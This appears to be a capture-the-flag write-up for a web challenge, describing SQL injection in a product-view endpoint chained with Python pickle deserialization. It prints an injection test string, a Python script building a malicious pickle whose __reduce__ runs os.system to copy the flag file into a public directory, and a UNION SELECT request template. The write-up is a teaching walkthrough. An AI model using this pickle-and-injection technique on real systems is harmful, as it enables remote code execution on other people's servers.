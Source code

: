 the main page looks like a simple e-commerce website with 4 products

it is possible to visualize individual products in the /view/[product-id] endpoint, the source code also tells that this parameter is sql injectable

	1' or id='4 \\ returns 200 ok http code

items are stored in the database as pickle objects, based on this it is interesting to check for **pickle deserialization** vulnerabilities 

remote code execution is available through a proper crafted payload injected into *product-id* parameter, it will then be processed through the application logic and executed when loaded into *pickle.loads(base64.b64decode(s))* [app.py source code]

python code to generate malicious object:

	import pickle
	from base64 import b64encode, b64decode
	
	payload = 'cp flag.txt application/static/images' \\\\copying flag.txt to publicly accessible directory
	
	class exploit:
	   def __reduce__(self):
	        import os
	        return os.system,(payload,)
	
	def send_payload():
		payload = exploit()
		payload = b64encode(pickle.dumps(payload))
		print(payload)
	
	if __name__ == '__main__':
		send_payload()

then a request injecting the output of the script to the /view/[product-id] endpoint would make the flag.txt accessible from the static/images/ directory

	/view/1' UNION SELECT '[PAYLOAD]




